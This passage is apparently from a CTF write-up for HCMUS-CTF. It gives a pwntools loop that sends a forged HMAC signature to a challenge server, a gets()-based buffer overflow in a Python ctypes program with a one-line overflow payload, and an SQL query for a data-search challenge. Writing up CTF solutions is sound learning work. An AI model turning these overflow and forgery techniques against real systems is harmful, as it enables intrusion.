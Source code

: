 ```python
array = bytes([100,76]) +b'Vd' + b'\x00'*4
signature = hmac.new(main_key,msg=array,digestmod=hashlib.sha256).digest()
while True:
    r = remote("go-mal.chall.ctf.blackpinker.com", 443, ssl=True)
    r.send(signature.hex().encode())
    rec = r.recv(1024)
    if b"{" in rec:
        print(rec)
        break
    # r.interactive()
    r.close()
```
Just wait several minute, and I get flag:

![](https://hackmd.io/_uploads/H1OSefUN3.png)

Flag: `HCMUS-CTF{1_us3_t1mest4Mp_W1tH_k3y_T0_4UTHENT1c4t3d_dATA}`

## PWN: Python is safe?

Code:
```python=
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'HCMUS-CTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

It's just bufferover flow (buf1) by using `gets()`. 

Calc Payload:
```bash
python3 -c 'print("a"*612 + "HCMUS-CTF")'
```
## Grind

This one little guessing, in the first time, as descsription given, I try using this query:

```sql
select DISTINCT uid,name from ranking where (uid like "23______" or uid Like "24______" )and points > 900000000 and points < 1000000000
INTERSECT
select DISTINCT uid,name from 'data-64-final'.ranking where (uid like "23______" or uid Like "24______" ) and rank  > 5000 
and name REGEXP '^[a-zA-Z0-9]+$'
ORDER BY name ASC
```
>23 or 24 mean uid right before 2019
